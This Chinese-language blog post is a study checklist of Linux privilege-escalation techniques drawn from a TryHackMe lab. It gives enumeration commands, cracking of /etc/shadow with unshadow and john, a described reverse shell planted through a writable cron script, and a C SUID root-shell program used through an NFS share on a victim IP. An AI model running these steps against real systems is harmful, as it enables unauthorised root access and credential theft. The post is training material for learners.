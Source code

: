 ```yaml
---
layout: post
title:  "Linux Privilege Escalation"
date:   26 June 2025
categories: Demo
tags: Cybersecurity
---
```

<html>
<body>
<div markdown="block" style="margin-top: 10px">
    
### Intro
今天來迅速了解關於Linux提權的常用手法，可能會有些簡陋，主要是提供自己一個思路。在真正提權時根據這個思路來走才不會忙手忙腳怕漏東漏西

介紹的手法出自 [TryHackMe - Linux Privilege Escalation](https://tryhackme.com/room/linprivesc)，有興趣的朋友可以自行查閱，後續若有看到新的手法會再進行補充

***提權手法:***
1. [Kernel Exploit](#1-kernel-exploit)
2. [Sudo -l](#2-sudo--l)
3. [SUID](#3-suid)
4. [Capabilities](#4-capabilities)
5. [Cron Jobs](#5-cron-jobs)
6. [PATH](#6-path)
7. [NFS](#7-nfs)

### 1. Kernel Exploit
有些Linux版本內核會有漏洞可以利用來提權，這部分可以在最剛開始拿到權限時就進行測試，因為不需要跑什麼腳本，可以通過簡單的查詢來快速排除/利用此項提權手法:

```bash
hostname
uname -a
cat /proc/version
cat /etc/issue
```

查到內核版本後上網查這個版本是否有CVE漏洞可以用來提權，注意這邊版本必需要直接對應，以及使用漏洞前要先徹底了解腳本會帶來的影響，因為這類型的腳本通常有可能造成系統crash

### 2. sudo -l
快速查閱當前用戶有沒有被授予對特定程序的sudo權限，如果有可利用 [GTFOBins](https://gtfobins.github.io/#) 查實際的提權手法

通常來說提權後關注的文件有:
- `/etc/passwd`
- `/etc/shadow`

獲得這兩個文件後可利用 **unshadow + john** 來破解用戶密碼:

```bash
#有兩個文件分別對應/etc/shadow & /etc/passwd
unshadow password.txt shadow.txt > unshadow.txt
john unshadow.txt
```

### 3. SUID
通過 **find** 指令查詢所有設置SUID的程序，進一步利用 [GTFOBins](https://gtfobins.github.io/#) 查實際提權手法

```bash
find / -type f -perm -04000 -ls 2>/dev/null
find / -perm -4000 -user root 2>/dev/null
```

順帶一提，可以利用 **id** 來查自己或別的用戶的權限以及所在群組，非常有用:

```bash
id
id jerry
```

### 4. Capabilities
*Capability 是 Linux 內核從 2.2 起引入的權限模型，可以讓某些程式在不設 SUID 的情況下擁有特權操作*

因此，如果用 `find` 查詢 SUID 的話是查不出 capability 的，因為它們所在的層面不同，雖然同樣屬於access control。要查詢Capability可以用 **getcap** 來查:

```bash
getcap -r / 2>/dev/null
```

若有查到類似 **cap_setuid+ep** 之類的就表示可能可以利用，因為還要在用 `ls` 檢查 owner 是否為 root 才能利用。當然這一步也可以在使用 **linpeas** 的時候就看到結果，只不過要自己去翻就是了 :D

### 5. Cron jobs
Linux的自動排程程序也可以作為提權手段，思路就是如果有排程任務它的擁有者是root，並且我們擁有這個排程任務執行的script的寫的權限，那麼我們就可以做提權

```bash
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *  root /antivirus.sh
* * * * *  root antivirus.sh
* * * * *  root /home/karen/backup.sh
* * * * *  root /tmp/test.py
```

- 例如像上面這個crontab，我們可以先找一下有沒有antivirus.sh，發現好像沒有這個文件，那麼我們正常來說可以創造一個名為 antivirus.sh 的文件並放在 PATH 下，但是當我們檢查這麼多個PATH之後發現當前用戶都沒有寫入權限，因此pass
- 再來我們去檢查 /home/karen/backup.sh 我們有無寫入權限，也是沒有因此pass
- 最後看到/tmp/test.py，對/tmp目錄我們有寫入權限，因此創建一個bash file名為test.py，內容是一個reverse shell返回到我們攻擊主機
- 注意這個test.py實際上並不是python file而是bash file，因為python file的話需要在裡面進一步設置setuid(0)之類的，而我們自己創造的test.py實際上並沒有權限可以這麼做，因此直接利用bash file執行reverse shell即可

### 6. PATH
利用的就是有些程序調用時使用例如 `os.system("vim")`也就是沒有使用絕對路徑，這樣的話linux會默認到環境變數PATH下依照順序到各個目錄下看有沒有這麼一個程序名為 `vim`。但如果下面條件有任何一項符合的話我們就可以利用環境變數PATH來提權:
- PATH中有哪些folder並且有folder我們有寫入權限
- 當前用戶有無權限修改PATH

**所以我們可以簡化出一個流程用於檢查是否可以利用PATH提權**：
- PATH中有哪些folder
- (二擇一)這些folder有沒有w權限
- (二擇一)可不可以修改PATH
- 有沒有script/application可以利用的(也就是有使用相對路徑調用的)

**常用指令:**

```bash
# 查看PATH
echo $PATH
# 查哪些folder當前用戶有寫入(w)權限
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
# 修改PATH
export PATH=/tmp:$PATH
```

### 7. NFS
NFS (Network File Sharing)也可以用來提權，思路就是在攻擊主機中mount到受害者主機分享的資料夾，之後用root用戶創建一個executable並且設置SUID，這樣在受害者主機上也會是root權限和SUID:
- 查看NFS 
  
```bash
# victim's perspective
cat /etc/exports
```

- 攻擊者主機:找出NFS並且mount到shared folder 
  
```bash
# attacker's perspective
showmount -e <VICTIM_IP>    #找出shared folders
mkdir /tmp/ttmp
mount -o rw <VICTIM_IP>:<SHARED_FOLDER> /tmp/ttmp   #mount到攻擊者主機文件夾
```
  
- 建一個ELF executable並且權限為owner:root和SUID

```c
#include <unistd.h>
#include <stdlib.h>

int main(){
    setgid(0);
    setuid(0);
    system("/bin/bash");
    return 0;
}
```

- 編譯為ELF executable

```bash
gcc nfs.c -o nfs -w
chmod +s nfs
```

- 最後在reverse shell上執行

```bash
./nfs
```

### 自我總結
提權手法類別:
- kernel exploit
- sudo -l
- SUID
- capability
- cron jobs
- PATH
- NFS

## 學習資料
1. [TryHackMe - Linux Privilege Escalation](https://tryhackme.com/room/linprivesc)

</div>
</body>
</html>
